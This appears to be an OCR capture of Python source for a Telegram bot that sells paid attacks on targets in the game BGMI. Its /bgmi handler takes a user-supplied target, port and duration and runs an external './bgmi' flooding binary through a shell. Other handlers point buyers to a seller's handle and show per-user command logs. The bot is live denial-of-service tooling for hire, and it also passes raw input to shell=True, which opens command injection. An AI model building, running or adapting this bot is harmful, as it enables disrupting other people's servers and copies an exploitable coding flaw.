                 bot.reply_to(message, response)
                return
            # Update the last time the user ran the command
            bgmi_cooldown[user_id] = datetime.datetime.now()
        
        command = message.text.split()
        if len(command) == 4:  # Updated to accept target, time, and port
            target = command[1]
            port = int(command[2])  # Convert time to integer
            time = int(command[3])  # Convert port to integer
            if time > 300:
                response = "Error: Time interval must be less than 300."
            else:
                record_command_logs(user_id, '/bgmi', target, port, time)
                log_command(user_id, target, port, time)
                start_attack_reply(message, target, port, time)  # Call start_attack_reply function
                full_command = f"./bgmi {target} {port} {time} 300"
                subprocess.run(full_command, shell=True)
                response = f"BGMI Attack Finished: {target} Port: {port} Time: {time}"
        else:
            response = "Usage :- /bgmi <target> <port> <time>"  # Updated command syntax
    else:
        response = "You Are Not Authorised To Use This Command."

    bot.reply_to(message, response)



# Add /mylogs command to display logs recorded for bgmi and website commands


@bot.message_handler(commands=['plan'])
def show_plan(message):
   # response = "Our plans:\n"
    #response += "- Basic Plan: $10/month\n"
   # response += "- Pro Plan: $20/month\n"
    #response += "- Premium Plan: $30/month\n"
    response = "- Know our services from @AVIHACKERYT\n"

    bot.reply_to(message, response)

@bot.message_handler(commands=['rules'])
def show_rules(message):
    response = "Rules:\n"
    response += "- Attacks are limited to authorized targets only.\n"
    bot.reply_to(message, response)

@bot.message_handler(commands=['mylogs'])
def show_command_logs(message):
    user_id = str(message.chat.id)
    if user_id in allowed_user_ids and is_subscribed(user_id):
        try:
            with open(LOG_FILE, "r") as file:
                command_logs = file.readlines()
                user_logs = [log for log in command_logs if f"UserID: {user_id}" in log]
                if user_logs:
                    response = "Your command logs:\n" + "".join(user_logs)
                else:
                    response = "No command logs found for you."
        except FileNotFoundError:
            response = "No command logs found."